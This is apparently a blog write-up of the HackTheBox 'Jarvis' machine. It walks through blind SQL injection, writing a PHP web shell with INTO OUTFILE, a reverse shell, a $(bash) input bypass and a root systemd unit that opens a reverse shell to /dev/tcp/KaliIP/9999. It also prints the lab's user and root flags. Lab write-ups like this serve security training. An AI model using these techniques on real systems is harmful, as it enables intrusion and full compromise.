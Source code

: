 ```yaml
---
layout: /src/layouts/MarkdownPostLayout_HTB.astro
title: Jarvis HackTheBox Write-Up
author: Adrian Reategui
description: ""
image:
  url: "/images/posts/jarvis_bg.png"
  alt: ""
pubDate: 2025-06-14
tags:
  ["linux", "machine", "writeup", "systemctl", "bypassing", "input", "python"]
languages: []
---
```


### SUMMARY
This machine has only two ports open, we found a SQLI vulnerability in the webpage on port 80 and when trying to dump the database we didint find any credentials nor anythign interesting. However when trying to upload a file into one of the routes we found we did it successfully! We uploaded out malicious php file and we were abel to obtain a RCE, I then send a revershell to my kali machine obtaining a shell as the user www-data. As www-data I found that I had a sudoers privilege to execute a python script as the user pepper, reading this script I found there was a user input, however it was sanitize, but I bypassed the sanitization by using special bash crafted payload being able to obtain a shell as the user pepper, this shell wasnt showing any output so I send another shell and I was able to read ouput in the new one. To escalate privielge I found systemctl SUID binary so I abuse it by creating a service that send a shell as the user root and when i run it i obtain a shell as the user root pwning the system

### NMAP
- Nmap scan report
	```
	# Nmap 7.95 scan initiated Fri May  9 09:40:18 2025 as: /usr/lib/nmap/nmap --privileged -sCV -p22,80,64999 -oN targeted 10.10.10.143
	Nmap scan report for 10.10.10.143
	Host is up (0.28s latency).
	
	PORT      STATE SERVICE VERSION
	22/tcp    open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
	| ssh-hostkey: 
	|   2048 03:f3:4e:22:36:3e:3b:81:30:79:ed:49:67:65:16:67 (RSA)
	|   256 25:d8:08:a8:4d:6d:e8:d2:f8:43:4a:2c:20:c8:5a:f6 (ECDSA)
	|_  256 77:d4:ae:1f:b0:be:15:1f:f8:cd:c8:15:3a:c3:69:e1 (ED25519)
	80/tcp    open  http    Apache httpd 2.4.25 ((Debian))
	| http-cookie-flags: 
	|   /: 
	|     PHPSESSID: 
	|_      httponly flag not set
	|_http-title: Stark Hotel
	|_http-server-header: Apache/2.4.25 (Debian)
	64999/tcp open  http    Apache httpd 2.4.25 ((Debian))
	|_http-title: Site doesn't have a title (text/html).
	|_http-server-header: Apache/2.4.25 (Debian)
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
	
	Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
	# Nmap done at Fri May  9 09:40:49 2025 -- 1 IP address (1 host up) scanned in 30.77 seconds
	```
### FOOTHOLD
- Found a webpage on port 80
	![alt](/images/posts/jarvis3.webp)
- When analizing the web I found a parameter that look interesting 
	![alt](/images/posts/jarvis4.webp)
- I tried different payloads however none was working til I tried SQL payloads, I was able to find that it was vulnerable by making the webpage sleep for 5 seconds
	![alt](/images/posts/jarvis5.webp)
- I then found that it was vulnerable to boolean blind sql injection however when dumping the contents of the database I didnt find any credentials or ways to access to the system
	![alt](/images/posts/jarvis6.webp)
- I fuzzed the webpage finding different directories
	![alt](/images/posts/jarvis7.webp)
- Nothing interesting so far but when I access to the images directory I found that I had directory lsiting permissions
	![alt](/images/posts/jarvis8.webp)
- So i thought to put a php file into the images directory by using the SQLinjection, however I had to find how many columns the database had and I did it by using the next payload. In order for the payload to work I dindt use '' because iot weasnt working
	![alt](/images/posts/jarvis9.webp)
- When trying a different number of columns in the payload I found that the Content-Lenght changed and it was the same number for the rest of the numbers but 7 so thats how I knew there was 7 columns total
	![alt](/images/posts/jarvis10.webp)
### RCE
- Once I knew there was 7 columns I decided to introduce my malicious payload using the following sentence and when sending the request I recevied a 200 OK
	```
	1 union select 1,2,3,4,5,6,"<?p sys(...);?>" INTO OUTFILE "/var/www/html/images/test.php"
	```
	![alt](/images/posts/jarvis11.webp)
- Checking on the images directory in the webpage I was able to find my file!
	![alt](/images/posts/jarvis12.webp)
- I then tested it and I was able to execute commands!
	![alt](/images/posts/jarvis13.webp)
- I send a revershell to my kali machine obtaining a shell successfully
	![alt](/images/posts/jarvis.webp)
### USER PIVOTING
- As the user www-data I found sudoers privileges that allowed me to execute a script as the user pepper
	![alt](/images/posts/jarvis14.webp)
- I read the script and found a function that allow us to execute a bash command, in this case ping by requesting a user input but had some special characters restrictions
	![alt](/images/posts/jarvis15.webp)
- I asked chatgpt what was wrong in the code and found this answer
	![alt](/images/posts/jarvis2.webp)
- So I ran the script and when prompted to introduce my input I use the $(bash) obtaining a bash as pepper
	![alt](/images/posts/jarvis16.webp)
### LOCAL
- I then was able to read pepper flag
	```
	pepper@jarvis:/dev/shm$ whoami && ifconfig && cat /home/pepper/user.txt
	pepper
	eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
	        inet 10.10.10.143  netmask 255.255.254.0  broadcast 10.10.11.255
	        inet6 fe80::250:56ff:fe94:b92e  prefixlen 64  scopeid 0x20<link>
	        inet6 dead:beef::250:56ff:fe94:b92e  prefixlen 64  scopeid 0x0<global>
	        ether 00:50:56:94:b9:2e  txqueuelen 1000  (Ethernet)
	        RX packets 559823  bytes 75304079 (71.8 MiB)
	        RX errors 0  dropped 0  overruns 0  frame 0
	        TX packets 544915  bytes 714858699 (681.7 MiB)
	        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
	
	lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
	        inet 127.0.0.1  netmask 255.0.0.0
	        inet6 ::1  prefixlen 128  scopeid 0x10<host>
	        loop  txqueuelen 1  (Local Loopback)
	        RX packets 2484174  bytes 639930560 (610.2 MiB)
	        RX errors 0  dropped 0  overruns 0  frame 0
	        TX packets 2484174  bytes 639930560 (610.2 MiB)
	        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
	
	9c4419dce87f7b66b727182832af2e98
	```
### PRIVILEGE ESCALATION
- The bash wasnt working so I used to send me another shell, and with a working shell I found there was an interesting SUID binary
	![alt](/images/posts/jarvis17.webp)
- the GTFObins explanation wasnt very clear about how to exploit it so I found a different resource on github[READ HERE](https://gist.github.com/A1vinSmith/78786df7899a840ec43c5ddecb6a4740)
	```TEST.SERVICE
	[Unit]
	Description=roooooooooot
	
	[Service]
	Type=simple
	User=root
	ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/KaliIP/9999 0>&1'
	
	[Install]
	WantedBy=multi-user.target
	```
- Once the test.service was created I then ran the following commands
	```
	/bin/systemctl enable /dev/shm/<name>.service
	/bin/systemctl start <name>
	```
	![alt](/images/posts/jarvis18.webp)
### ROOT
- I then read root flag
	```
	root@jarvis:/# whoami && ifconfig && cat /root/root.txt
	root
	eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
	        inet 10.10.10.143  netmask 255.255.254.0  broadcast 10.10.11.255
	        inet6 fe80::250:56ff:fe94:b92e  prefixlen 64  scopeid 0x20<link>
	        inet6 dead:beef::250:56ff:fe94:b92e  prefixlen 64  scopeid 0x0<global>
	        ether 00:50:56:94:b9:2e  txqueuelen 1000  (Ethernet)
	        RX packets 559766  bytes 75300139 (71.8 MiB)
	        RX errors 0  dropped 0  overruns 0  frame 0
	        TX packets 544865  bytes 714854152 (681.7 MiB)
	        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
	
	lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
	        inet 127.0.0.1  netmask 255.0.0.0
	        inet6 ::1  prefixlen 128  scopeid 0x10<host>
	        loop  txqueuelen 1  (Local Loopback)
	        RX packets 2484174  bytes 639930560 (610.2 MiB)
	        RX errors 0  dropped 0  overruns 0  frame 0
	        TX packets 2484174  bytes 639930560 (610.2 MiB)
	        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
	
	12d9948e715f49220115e94bacd227a9
	```